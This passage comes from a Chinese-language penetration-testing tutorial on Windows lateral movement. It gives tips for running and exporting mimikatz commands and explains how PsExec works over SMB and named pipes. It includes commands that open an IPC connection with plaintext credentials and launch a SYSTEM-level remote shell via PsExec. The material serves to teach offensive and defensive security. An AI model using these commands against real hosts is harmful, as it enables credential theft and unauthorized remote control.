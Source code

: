 6. mimikatz 中复制粘贴有时会导致命令行崩溃，所以一般建议：
    ```bash
    # 在交互的 Shell 中
    mimikatz.exe "命令1" "命令2" ......
    # 导出结果，注意结尾要带个 "exit"，否则文件会无限大导致卡死
    mimikatz.exe "命令1" "命令2" ...... "exit" > "文件名"
    ```

#### 4.2.2 PsExec - 明文

1. 官方介绍：

    > https://learn.microsoft.com/zh-cn/sysinternals/downloads/psexecTelnet  
    > “Ps” 前缀与标准 UNIX 进程列表命令行工具名为“ps”有关。PsExec 是一种**轻量级 telnet 替代品**，可让你在其他系统上执行进程，并为控制台应用程序提供完整交互性，而无需手动安装客户端软件。 PsExec 最强大的用途包括在远程系统上启动交互式命令提示符，以及 IpConfig 等远程启用工具，否则无法显示有关远程系统的信息。
    > 注意：某些防病毒扫描程序报告一个或多个工具感染了“远程管理员”病毒。 PsTools 均不包含病毒，但它们已被病毒使用，这就是它们**触发病毒通知**的原因。
    >
    > 这篇文章介绍的很好：https://www.cnblogs.com/tomyyyyy/p/14667204.html

    根据官方的说法，可能其他的第三方防病毒软件会报毒。该工具包含在 PsTools 中。

2. 其底层原理来讲就是：

    1. 登陆远程主机
    2. 连接 admin$ 共享
    3. 写入 psexesvc.exe 文件到共享目录下，也就是远程主机的 c:\windows 下
    4. 利用 ipc 命名管道调用 svcctl 服务
    5. 利用 svcctl 服务**开启 psexesvc 服务**
    6. 生成 4 个命名管道以供使用

    参考：https://blog.csdn.net/ping_pig/article/details/121229030
    命名管道的通信基于 SMB，所以需要开放 445 端口。

3. 第一种通过明文：先有 IPC 连接，然后通过 PsExec 执行命令。
    ```cmd
    # 建立 IPC 连接
    net use \\192.168.31.2\ipc$ "password" /user:"username"
    # 调用 PsExec
    # -accepteula 第一次运行 PsExec 会弹出确认框，使用该参数就不会弹出确认框
    # -s 以 System 权限运行远程进程。
    # 该条命令获得一个对方主机 System 权限的 Shell
    PsExec.exe -accepteula -s \\192.168.31.2 cmd.exe
    # 当然也可以执行其他 cmd 命令
    PsExec.exe -accepteula -s \\192.168.31.2 ipconfig
    ```

